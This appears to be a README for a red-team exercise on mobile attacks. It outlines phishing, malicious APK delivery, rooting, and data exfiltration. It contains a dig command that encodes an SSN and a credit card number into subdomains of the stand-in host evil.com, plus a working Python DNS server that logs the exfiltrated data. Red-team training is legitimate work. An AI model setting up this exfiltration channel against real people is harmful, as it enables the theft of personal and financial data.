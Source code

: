 # Red Team Exercise - Mobile Attack Vectors

## Attack Chain Overview
1. **Phishing Site** → Social engineering for credentials
2. **APK Delivery** → Malicious app download
3. **Device Exploitation** → Root access & persistence
4. **Data Exfiltration** → Multiple covert channels

## Data Exfiltration Methods (Educational)

### Localhost Simulation vs Real-World
**Current Setup (Localhost):**
- HTTP beacons to localhost:5000
- Base64 encoded data in image requests
- localStorage persistence

**Real DNS Exfiltration (External Attack):**
```bash
# Attacker controls domain: evil.com
# Victim sends DNS queries like:
# 123-45-6789.exfil.evil.com  (SSN encoded in subdomain)
# 4532-1234-5678-9012.cc.evil.com  (Credit card in subdomain)

# Attacker's DNS server logs these queries
dig 123456789.exfil.evil.com
```

### Real-World DNS Exfiltration Setup
```python
# dns_exfil_server.py - Real DNS exfiltration
import socket
from dnslib import DNSRecord, DNSHeader, RR, A

def dns_handler(data):
    request = DNSRecord.parse(data)
    qname = str(request.q.qname)
    
    # Extract exfiltrated data from subdomain
    if '.exfil.' in qname:
        stolen_data = qname.split('.exfil.')[0]
        print(f"[+] Exfiltrated: {stolen_data}")
    
    # Return dummy response
    reply = DNSRecord(DNSHeader(id=request.header.id, qr=1, aa=1, ra=1))
    reply.add_question(request.q)
    reply.add_answer(RR(request.q.qname, 1, 300, A("1.2.3.4")))
    
    return reply.pack()
```
